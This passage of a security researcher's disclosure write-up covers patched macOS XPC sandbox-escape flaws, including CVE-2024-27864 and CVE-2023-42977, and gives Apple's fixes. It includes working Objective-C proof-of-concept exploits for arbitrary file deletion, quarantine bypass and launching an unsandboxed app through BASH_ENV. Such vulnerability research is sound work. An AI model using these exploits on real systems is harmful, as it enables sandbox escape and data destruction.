The `INHServing` protocol has 11 methods:


There is a path traversal issue in the function named “`filePathForImageWithFileName`”:



The function parameter `fileName` is an arbitrary string, that can be controlled by the XPC client.

This vulnerable function can be reached from two XPC methods:

The first XPC method is named “`retrieveImageWithIdentifier:completion:`”:


It can be abused to read an arbitrary file with extension “`.png`”, and the retrieved data will be stored in a member variable of the “`INImage`” instance and replied to the XPC client.

The second XPC method is named “`purgeImageWithIdentifier:completion:`”:


It can be exploited to delete an arbitrary file path.

### The exploit and demo

```
@protocol INHServing
- (oneway void)purgeImageWithIdentifier:(NSString *)arg1 completion:(void (^)(NSError *))arg2;
- (oneway void)retrieveImageWithIdentifier:(NSString *)arg1 completion:(void (^)(INImage *, NSError *))arg2;
@end

void exploit_intents_helper(NSString *target) {
    [[NSBundle bundleWithPath:@"/System/Library/Frameworks/Intents.framework"]load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.intents.intents-helper"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(INHServing)];
    [conn setInterruptionHandler:^{
        NSLog(@"connection interrupted!");
    }];
    [conn setInvalidationHandler:^{
        NSLog(@"connection invalidated!");
    }];
    [conn resume];

    [[conn remoteObjectProxy] purgeImageWithIdentifier:[@"../../../../.." stringByAppendingPathComponent:target] completion:^(NSError *error) {
        NSLog(@"error:%@", error);
    }];
}
```

Demo link: https://youtu.be/X0fv3x6bmF8

### The patch

Apple addressed the vulnerability in macOS Sonoma 14.0 by sanitizing the input string from the XPC client:


The special characters used for path traversal will be trimmed.


## CVE-2024-27864

The CVE entry is waiting to be published.

### The issue

The vulnerability exists in the XPC service:

```
/System/Library/PrivateFrameworks/DiskImages2.framework/XPCServices/diskimagescontroller.xpc
```

This XPC service is powerful because it has the special entitlement “**com.apple.diskimages.creator-uc**" in its code signature:


This entitlement has two main functions:

- Talk to `/usr/libexec/diskimagesiod`, which has the **FDA** entitlement and does the real attach job.
- Connect to the IOKit Service “**AppleDiskImagesController**” (`/System/Library/Extensions/AppleDiskImages2.kext`), which **creates** and **quarantines** a device for a DMG file.

Similarly, the XPC service accepts all the incoming XPC clients by returning **YES** in the delegate method:


The `DIControllerProtocol` has 10 methods:


The first issue exists in the XPC method named “`attachWithParams:reply:`”:


At line 12, it calls the function “`checkAttachEntitlementWithError`”. As the name implies, the checker function should check the entitlement of the incoming XPC client. However, it always returns **TRUE**:


The XPC client has already been implemented in the `DiskImages2.framework` as the objective-c class **DIAttachParams**. And the XPC connection can be established via the method “`-[DIAttachParams newAttachWithError:]`”. So I could reuse the framework code directly like this to attach a DMG volume without reinventing the wheels:

```
NSError *error=nil;
DIAttachParams *params = [[DIAttachParams alloc] initWithURL:[NSURL fileURLWithPath:@"quarantined_payload.dmg"] error:&error];
[params newAttachWithError:&error];
```

However, I discovered that the **client code** in the framework will **check** whether the input URL is quarantined:


If the input URL is quarantined, it will set the **quarantine parameter** before invoking the XPC method to attach. This will notify the XPC service to quarantine the target device.

So in my own XPC client, I can **skip the quarantine parameter setting** and invoke the XPC method to attach directly. As a result, the XPC service will **attach a quarantined DMG file without quarantining the corresponding device**.

### The exploit and demo

In order to skip setting the quarantine parameter, I have to **rewrite the XPC client code** by myself:

```
@protocol DIControllerProtocol
- (void)dupWithStderrHandle:(NSFileHandle *)arg1 reply:(void (^)(NSError *))arg2;
- (void)attachWithParams:(DIAttachParams *)arg1 reply:(void (^)(NSError *))reply;
@end
@interface DIController2Client : NSObject<DIController2ClientProtocol>
@end
@implementation DIController2Client
- (void)attachCompletedWithHandle:(NSFileHandle *)handle reply:(void (^)(NSError *))reply {
    NSLog(@"attachCompletedWithHandle:%@", handle);
    system("open /Volumes/.exploit/poc.app"); // launch the app from the payload.dmg (unquarantined mounting)
    reply(0);
}
@end
void exploit_diskimages2(void) {
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/DiskImages2.framework"] load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.diskimagescontroller"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(DIControllerProtocol)];
    conn.exportedInterface = [NSXPCInterface interfaceWithProtocol:@protocol(DIController2ClientProtocol)];
    conn.exportedObject = [[DIController2Client alloc]init];
    [conn resume];
    id proxy = [conn remoteObjectProxy];
    
    // [proxy dupWithStderrHandle:[NSFileHandle fileHandleWithStandardError] reply:^(NSError *err) {}];
    DIAttachParams *params = [[DIAttachParams alloc] initWithURL:[NSURL fileURLWithPath:@"payload.dmg"] error:nil];
    [proxy attachWithParams:params reply:^(NSError *err) { // the quarantined payload.dmg (dropped by this sandboxed app) will be attached without being quarantined!
        NSLog(@"attach error:%@", err);
    }];
}
```

Demo link: https://youtu.be/FYcFwkgiGzw

### The patch

Apple addressed the vulnerability in macOS Sonoma 14.4 by **moving the verification logic from the client side to the server side**.

It will quarantine the corresponding device directly from the server, if the input file path is quarantined.


## CVE-2023-42977


### The issue

The vulnerability exists in the XPC service:

```
/System/Library/PrivateFrameworks/PowerlogCore.framework/XPCServices/PerfPowerServicesSignpostReader.xpc
```

The XPC service can be launched without any sandbox restrictions.

It accepts all the incoming XPC clients by returning **YES** in the delegate method:



The `XPCSignpostReaderProtocol` has 6 methods:


However, Apple has only implemented one XPC method named “`submitSignpostDataWithConfig:withReply:`”, the other 5 XPC methods are empty implementations. 

The core logic of this XPC method is to collect the log data and archive it to a gzip file. It seems that the log archive data will later be submitted to the Apple servers. However, there is a path traversal issue in this XPC method:


Because the variable “`tagUUID`” is an arbitrary string, that can be controlled by the XPC client. The “`powerlog`” path can be hijacked to an arbitrary path.

### The exploit and demo

#### The Exploit 1: Arbitrary Path Delete

At line 160 of the function:


It calls the method named “`archiveDirectoryAt:deleteOriginal:`” which will delete the “`powerlog`” path. So this gives the attacker a primitive to remove an arbitrary path:

```
    [[conn remoteObjectProxy] submitSignpostDataWithConfig:@{
        @"taskingAllowlist":@{},
        @"taskingStartDate":[NSDate now],
        @"taskingEndDate":[NSDate now],
        @"taskingSubmitSP":@0,
        @"taskingTagConfig":@{
            @"TagUUID":[NSString stringWithFormat:@"/../../../../../%@", path]
        }
    } withReply:^(id reply) {
        NSLog(@"reply:%@", reply);
    }];
```

#### The Exploit 2: Arbitrary Directory Create and Full Sandbox Esacpe

Moreover, at line 41 of the function “`createSignpostFile:`”:


It creates the directory at the “`powerlog`” path. So this gives the attacker a primitive to create an arbitrary directory:

```
@protocol XPCSignpostReaderProtocol <NSObject>
- (void) submitSignpostDataWithConfig:(id)config withReply:(void (^)(id))arg2;
@end
void my_create_path(NSString *path) {
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/PowerlogCore.framework"]load];
    conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.PerfPowerServicesSignpostReader"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(XPCSignpostReaderProtocol)];
    [conn resume];
    [[conn remoteObjectProxy] submitSignpostDataWithConfig:@{
        @“taskingAllowlist":@{}, @"taskingStartDate":[NSDate now], @"taskingEndDate":[NSDate now], @“taskingSubmitSP":@1,
        @"taskingTagConfig":@{
            @"TagUUID":[NSString stringWithFormat:@"/../../../../../%@/logarchive", path],
            …
        }
    } withReply:^(id reply) {
        NSLog(@"reply:%@", reply);
    }];
}
```


In fact, **the primitive to create an arbitrary directory without the quarantine extended attribute can lead to a full sandbox escape**.

Here, I used the trick from [CVE-2023-32364](https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html):

```
- (void)viewDidLoad {
    [super viewDidLoad];
    NSString *currentDir = NSHomeDirectory();
    NSString *payloadPath = [currentDir stringByAppendingPathComponent:@"payload"];
    [@"#!/bin/bash\ntouch /tmp/sbx\n" writeToFile:payloadPath atomically:TRUE encoding:NSUTF8StringEncoding error:nil];
    NSString *myapp = [currentDir stringByAppendingPathComponent:@"poc.app"];
    my_create_path(myapp); // create .app folder without being quarantined
    
    mkdir("poc.app/Contents", 0777);
    mkdir("poc.app/Contents/MacOS", 0777);
    symlink("/bin/bash", "poc.app/Contents/MacOS/poc");
    NSString *cmd = [NSString stringWithFormat:@"defaults write \"%@/poc.app/Contents/Info\" LSEnvironment -dict-add BASH_ENV \"%@\"", currentDir, payloadPath];
    system([cmd UTF8String]);
    system("open ./poc.app");
}
```

Demo link: https://youtu.be/6R4tfOGAjm0

### The patch

Apple addressed the vulnerability in macOS Sonoma 14.0 by **sanitizing the UUID string** from the XPC client:


If the input string is not a **valid UUID**, then it will exit the function.


# Take Away

### Summary

- An overlooked attack surface

- - System (private) frameworks’ XPC services (**PID Domain**)

- Drop a file/folder without being quarantined == Full Sandbox Escape

- - File quarantine attribute lost during decompression == **Gatekeeper Bypass** == **Sandbox Escape**. E.g., [CVE-2021-30990](https://breakpoint.sh/posts/bypassing-the-macos-gatekeeper)

- A few sandbox escape vulnerabilities and the exploits

- - And more?

  - - There are 5 reports still in the patching queue
    - Find your own sandbox escape vulnerabilities :P

### One More Thing

I submitted this report to Apple:


Apple deemed it an expected behavior and closed the report:


I can understand why Apple thinks this is an expected behavior. Because the newly launched application is not in the context of the current process and it cannot share entitlements or privileges that the current process may have.

### My thoughts 

- The **App Sandbox**: dropped files are quarantined **by default**.
- The **Service Sandbox**: dropped files are **not quarantined by default.**
- - - Not a flaw: The newly launched process is **not in the current service execution context**, and thus can’t share the entitlements/privileges of the current service.
    - It’s a flaw: Once an attacker get the remote code execution (RCE) in a sandbox-restricted service context (e.g., **IMTranscoderAgent, 0-click exploited by NSO Group**), he can drop and launch a new non-sandboxed application to get rid of the sandbox restriction of the target service (**IMTranscoderAgent**). 
    - e.g., “`com.apple.WebDriver.HTTPService.xpc`" calls the API “**WBSEnableSandboxStyleFileQuarantine**” manually.

- Escape from the **App Sandbox** to the **Service Sandbox** == **Non Sandbox** (**macOS Only**)

### Resources

Here is a list of resources for reference:

- https://developer.apple.com/library/archive/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/CreatingXPCServices.html 
- https://saelo.github.io/presentations/bits_of_launchd.pdf 
- https://googleprojectzero.blogspot.com/2022/03/forcedentry-sandbox-escape.html 
- https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/ 
- https://i.blackhat.com/EU-21/Wednesday/EU-21-Waisberg-Skeletons-In-The-App-Sandbox.pdf
- https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html
- https://breakpoint.sh/posts/bypassing-the-macos-gatekeeper
- https://jhftss.github.io/CVE-2022-26712-The-POC-For-SIP-Bypass-Is-Even-Tweetable/


